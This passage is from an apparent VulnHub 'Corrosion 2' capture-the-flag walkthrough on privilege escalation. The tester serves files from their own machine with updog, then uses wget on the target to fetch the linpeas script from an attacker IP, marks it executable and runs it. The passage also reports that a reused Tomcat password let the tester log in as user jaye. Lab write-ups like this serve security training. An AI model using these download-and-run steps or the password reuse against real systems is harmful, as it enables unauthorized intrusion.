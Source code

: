 ![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_4.png)
now we have a shell , we can move next step to get root shell.


# Privilege Escalation
after get shell we can upload Linpeas and try to find a way escalate privileges.
## Elevation of Privilege : tomcat to jaye
```bash
# On main machin
updog -p 8081 

# Downlaod temp folder on corrision-2 machine
wget http://192.168.238.6:8081/linpeas_base.sh
chmod +x linpeas_base.sh
./linpeas_base.sh
```

we found interesting file on the `root` directory
![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_5.png)
let's investigate 
![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_7.png)
after read this i tried old tomcat password for randy but it didn't successful i look other user and for Jaye user i become successful. let's move on and try to escalate another suer
![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_8.png)
